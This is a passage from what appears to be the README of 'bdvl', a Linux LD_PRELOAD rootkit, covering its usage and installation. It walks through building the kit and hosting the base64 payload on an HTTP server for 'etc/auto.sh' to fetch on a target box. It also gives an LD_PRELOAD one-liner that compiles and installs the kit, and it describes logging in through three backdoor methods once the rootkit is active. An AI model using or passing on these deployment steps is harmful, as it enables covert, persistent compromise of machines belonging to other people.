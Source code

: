 <hr>

## 2. Usage
 * Getting an installation up & running is pretty easy.
 * First you'll want to edit maybe a small handful of settings in `setup.py`.
   * You can fine tune a decent amount of stuff to your liking.
 * Next, `sh etc/depinstall.sh && make`...
   * Now in the `build/` directory there are three new files.
     * `<PAM_UNAME>.b64`
     * `bdvl.so.*`
     * `<PAM_UNAME>.h` ([Updating existing installations](#3-updating-existing-installations))
 * When it comes to the actual installation, you have three choices.
   * Host the result (_for example_) `build/changeme.b64` file somewhere accessible from the target box & point the first variable in `etc/auto.sh` to wherever `changeme.b64` may be.
   * On the box, when running `etc/auto.sh` supply it a path as an argument to this file wherever it is.
   * Or with the compiled `bdvl.so.*` you can run ``LD_PRELOAD=./build/bdvl.so.`uname -m` sh -c './bdvinstall build/*.so.*'``.
     * This is how `etc/auto.sh` installs bdvl after installing dependencies.

### 2.1. Installation example
 * On my own machine here, I've configured bdvl how I like & have built it.
 * The output that you can expect to see from these stages may differ very slightly from the images but the process remains the same.

<img src=https://i.imgur.com/PTdmRS5.png alt=building-bdvl />

 * In this example I am using `etc/auto.sh` to grab the result (__changeme.b64__) from a _Python HTTPServer_ I've got running for this purpose.
 * The last command sent in that screenshot is once the target box is listening for my connection, as seen in the example below.

<img src=https://i.imgur.com/pmwGUb8.png alt=installation-process />

 * Now the rootkit will be in effect & you'll be able to log in.
 * In the example below I am using the 3 backdoor methods available in bdvl.

<img src=https://i.imgur.com/pqpJHTy.png alt=first-backdoor-login />

### 2.2. Notes
 * Due to how bdvl installs itself, there is some pretty decent flexibility when it comes to how you can get your install onto the box.
 * To try to explain, I'll use a oneliner that I frequently use while testing...
 * ``tar xpfz bdvl.tar.gz && rm bdvl.tar.gz; cd bdvl/; nano setup.py; clear; make; LD_PRELOAD=./build/bdvl.so.`uname -m` sh -c './bdvinstall build/*.so.*'``
   * Now this is on my test environment, so...
   * I uploaded `bdvl.tar.gz` prior to running that...
   * Dependencies are already present...
 * Once I exit nano, the kit compiles, installs itself & then is ready to go & I can access any backdoor I like.
   * This is basically a much shorter version of `etc/auto.sh` however that script uses an already-configured setup, so there is no editing `setup.py` beforehand.
   * Not to mention that `etc/auto.sh` installs required dependencies before trying to install the kit.
   * My point is ultimately that you can create your own (idea of) `etc/auto.sh` if that's something you'd like to do.
